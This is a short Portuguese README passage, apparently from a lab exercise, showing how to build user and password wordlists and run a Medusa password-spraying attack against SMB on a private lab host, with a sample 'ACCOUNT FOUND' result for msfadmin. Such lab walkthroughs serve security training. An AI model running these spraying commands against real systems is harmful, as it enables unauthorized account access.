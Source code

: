 **Comando para criação de Wordlist smb_users.txt e senhas_spray.txt**:
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt   
```

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt  
```

Use uma **única senha comum** contra **vários usuários**:

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50 
```

> `smbnt` é o módulo do Medusa para autenticação SMB (NTLM).

Arquivo `smb_users.txt`:
```txt
user
msfadmin
service
```

✅ Se funcionar:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin
```

### 📷 Imagem de exemplo:

![smb](images/smb.png)
